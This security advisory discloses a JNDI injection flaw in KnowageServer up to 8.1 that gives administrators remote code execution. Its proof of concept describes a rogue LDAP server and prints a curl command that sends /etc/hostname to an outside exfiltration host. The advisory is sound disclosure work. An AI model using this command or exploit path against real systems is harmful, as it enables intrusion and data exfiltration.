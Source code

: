 ## Overview
KNOWAGE is the open source analytics and business intelligence suite that allows you to combine traditional data and big/cloud data sources into valuable and meaningful information.

## Description
**KnowageServer, up to version **8.1**, does not properly validate user input for the “jndi” field in the “data sources” configuration panel. This behavior allows any user with role type “Administrator” (“roleTypeID”:28) to change the JNDI source at will by inserting a potentially malicious one, which could lead to remote code execution.**

JNDI injection is a type of attack that occurs when an attacker is able to inject malicious data into the JNDI data source used by an application, allowing them to execute arbitrary code on the application server. Proper validation and sanitization of user input can prevent this type of attack by ensuring that only safe data is used in JNDI queries.

## Discovered By
Jacopo Taccucci

## PoC
The following PoC demonstrates how Remote Code Execution within the Knowage server can be achieved thanks to this vulnerability: Leveraging a malicious LDAP server will be conveyed the command `curl -d @/etc/hostname http://<redacted>.oastify.com` to exfiltrate the /etc/hostname file to a third http exfiltration server.

The attack process begins with the preparation of an LDAP server, which, upon receiving a request for an object (in our case “o=exploit”), responds with a Reference Ref object containing the command `curl -d @/etc/hostname http://<redacted>.oastify.com`. 
To perform this operation, this PoC uses **Rogue JNDI**, a malicious server developed by Veracode Research.

After starting the LDAP server, we edit the data source using the UI. The address of the malicious server is entered into the JNDI field as shown in the figures below. 
By clicking “TEST” on the UI the input is processed and the attack is launched.

<img width="610" alt="Evidence1" src="https://github.com/user-attachments/assets/435724f3-8677-4078-b8c2-8e818592b009">

<img width="760" alt="Evidence2" src="https://github.com/user-attachments/assets/40c8bbba-e7e0-4cea-b7fb-206d00c4338c">

By inspecting the log of the attacking server, it can be seen that the attack was launched.

![Evidence3](https://github.com/user-attachments/assets/dba1529e-dd8d-4562-980a-976875c04176)

Upon receiving the “o=exploit” object, the Knowage server executes the `curl -d @/etc/hostname http://<redacted>.oastify.com` command. 
By inspecting the log of the the exfiltration-server, it can be seen that the code execution was successful: the server received a POST request containing the /etc/hostname file.

<img width="326" alt="Evidence4" src="https://github.com/user-attachments/assets/9e549d15-b3dc-4f2f-ac83-477345c67430">

The correctness of the received hostname can be seen in the Knowage licensing page, as shown in the figures below.

<img width="757" alt="Evidence5" src="https://github.com/user-attachments/assets/6d1d6060-577e-490f-8822-496f0f13b316">

## Timeline
- **07-10-2024**: The vulnerability was found and privately disclosed to the vendor;
- **16-10-2024**: A fix was released in version 8.1 as per commit: https://github.com/KnowageLabs/Knowage-Server/commit/f7d0362f737e1b0db1cc9cc95b1236d62d83dd0c 
- 
